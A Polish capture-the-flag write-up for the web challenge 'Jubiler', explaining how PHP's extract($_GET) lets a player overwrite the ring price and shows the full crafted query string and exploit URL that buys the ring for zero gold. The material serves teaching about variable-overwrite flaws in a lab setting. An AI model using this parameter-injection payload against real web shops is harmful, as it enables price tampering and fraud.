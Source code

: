 # Różdżka chaosu, Jubiler, web

## Opis
"Pierścienie na wystawie wyglądają pięknie, ale nie są tanie..."

## Rozwiązanie

Odwiedzając sklep jubilera widzimy, że pierścienie kosztują 500złota (a my mamy zero).
Interesujący fragment kodu zadania znajduje się w pliku [jewellershop.php](./jewellershop.php)

Jeśli w jakiś sposób zmienilibyśmy cenę pierścienia na zero to poniższy warunek nie byłby spełniony i kupilibyśmy pierścień za zero złota:
```php
    if ($player -> credits < $ringPrice)
    {
        error(NO_MONEY);
    }
```

Możemy to zrobić za pomocą funkcji `extract`, która wypakuje nam zmienne z `$_GET` do przestrzeni globalnej.
```php
extract($_GET);
```

Dzięki temu możemy nadpisać zmienną `$ringPrice`. Problemem jest jeszcze warunek sprawdzający wynik działania funkcji `craft`. Musimy dostarczyć jej poprawnych wartości, aby zapobiec ustawieniu zmiennej `$closed` na `True`, czyli odwołania `$$item['material']` oraz `$$item['inscription']` muszą być poprawne. W celu budowania payloadu wykorzystamy funkcję `http_build_query`, która znacznie uprości całą sprawę:

Czyli musimy:
- ustawić parametr GET `craft`
- nadpisać `$ringPrice`
- stworzyć zmienną, która będzie tablicą asocjacyjną z kluczami: `material` oraz `inscription`

Budujemy parametry za pomocą wcześniej wspomnianej funkcji:
```php
http_build_query(array('craft' => 'asdf', 'item' => 'i', 'i' => array('material' => 'sssss', 'inscription' => 'dddd'), 'ringPrice' => 0));
```
output:
```
craft=asdf&item=i&i%5Bmaterial%5D=sssss&i%5Binscription%5D=dddd&ringPrice=0
```
Doklejamy to do: [https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1](https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1) otrzymując to: https://vallheru.rozdzka.securing.pl/jewellershop.php?buy=1&craft=asdf&item=i&i%5Bmaterial%5D=sssss&i%5Binscription%5D=dddd&ringPrice=0

Wchodzimy pod finalny adres i zgarniamy flagę:

![solve](./solve.png)




